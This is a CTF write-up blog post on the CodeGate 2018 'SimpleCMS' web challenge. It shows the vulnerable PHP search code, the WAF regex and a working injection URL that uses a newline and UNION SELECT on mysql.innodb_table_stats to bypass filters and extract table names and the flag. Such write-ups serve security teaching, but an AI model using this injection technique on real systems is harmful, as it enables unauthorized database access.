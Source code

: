 ```yaml
---
layout: post
title:  "Simple CMS - CodeGatePreQuals - 2018"
image: ''
date:   2018-02-04 00:06:31
tags:
- Web Security, CTF, CodeGate 2018, Prequals, SQLi, Source Code SQLi
description: 'Code Gate PreQuals Web Challenge writeup'
categories:
- Web, CTF, SQLi, Web Security
---
```


As usual, the CTF contained pretty hard challenges and there were only two web challenges. The challenge name was `SimpleCMS` which is basically a Content Management System for which they gave the source code. Woah, neet and clean and yes, setting up a challenge locally is nothing more awesome!

Moving onto the challenge, from the very first view, it seems to be SQLi but I was obvious that there were some filters as I tried to register with a password as `password` which was basically denied and that was because `or` was filtered by the `waf` file.

Since an instance was running locally, I was able to figure out that the `flag` was in the third column of the table named `xx_flag` where in `xx` denoted a random str. Also, there is a column in the table but then even that has a random str appended towards the beginning. So now, I knew that I have to get the table name, column name as well. The next question was, SQLi - how, where?

The next step was finding out where the injection point is and after a fair amount of time, I was able to find that, query is `LOWER({$column[$i]}) like '%{$search}%' {$operator}` and yes, possibly injection in `{$search}`. Moreover, I did not find `LIKE` keyword to be listed in the blacklist.

Taking a look at the `search code` in the file `Board.class.php` gives us more information about the search function.

```
<?php
function action_search(){
			$column = Context::get('col');
			$search = Context::get('search');
			$type = strtolower(Context::get('type'));
			$operator = 'or';

			if($type === '1'){
				$operator = 'or';
			}
			else if($type === '2'){
				$operator = 'and';
			}
			if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
				$column = 'title';
			}
			$query = get_search_query($column, $search, $operator);
			$result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
			include(CMS_SKIN_PATH . 'board.php');
		}
		function action_read(){
			$idx = Context::get('idx');
			if(!$idx)
				alert('not found', 'back');
			$query = array('idx'=>$idx);

			$result = DB::fetch_row('board', $query);
			include(CMS_SKIN_PATH . 'post.php');
		}
	}
  ?>
```

In the above code, which is pretty weird, you can see that a newline can cause an error.

So building up the payload:

```
http://13.125.3.183/index.php?act=board&mid=search&col=title#&type=1&search=test%0a)<0 union select 1,(select table_name from mysql.innodb_table_stats limit 2,1),3,4,5#
```
which fetches the `{table_prefix}` and also, `information_schema` can't be used and that is also blacklisted and finally building the payload to get the `flag` using `join` fetches us `flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`.


Reach me out on <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
